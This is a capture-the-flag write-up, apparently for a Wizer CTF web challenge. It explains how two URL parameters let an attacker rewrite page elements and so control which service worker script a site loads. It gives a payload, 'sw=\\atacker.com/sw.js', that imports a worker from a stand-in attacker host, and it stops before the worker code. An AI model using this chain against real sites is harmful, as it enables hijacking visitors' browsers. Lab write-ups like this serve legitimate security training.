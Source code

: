 
![image](md/9545e376-5829-4001-9c7a-5ee1ff4a22fb.webp)


Here if we put GET parameter `mode=sw` then we can control the value of `const sw` it will be what we give in GET parameter `color`.

explanation:

Parameter Retrieval:
- `modeParam = searchParams.get('mode')`:
  1. Stores the value of the query parameter named `mode` in the `modeParam` variable.

- `colorParam = searchParams.get("color")`:
  1. Similarly, retrieves the value of the `color` parameter and stores it in `colorParam`.

Element Updates:
- `document.getElementById("mode").children[0].id = modeParam;`:
  1. Finds the element with the ID "mode" and targets its first child element.
  2. Sets the id attribute of the child element to the value of `modeParam`.

- `document.getElementById(modeParam).textContent = colorParam;`:
  1. Uses the value of `modeParam` to look up an element by its ID.
  2. Sets the textContent of that element to the value of `colorParam`.

Service Worker Registration:
- `sw = document.getElementById('sw').innerText;`:
  1. Retrieves the innerText (text content) of the element with the ID "sw".
  2. Stores the retrieved content in the `sw` variable.


`https://events.wizer-ctf.com/sw.js?sw=` have the following code:

```js
// Allow loading in of service workers dynamically
importScripts('/utils.js');
importScripts(`/${getParameterByName('sw')}`);
```

It will import the serviceWorker from the value of `sw` since we can control it we can import our own serviceWorker with `sw=\\atacker.com/sw.js`. \
This will get the file from `https://atacker.com/sw.js`.

now to craft our serviceWorker take a look at this.
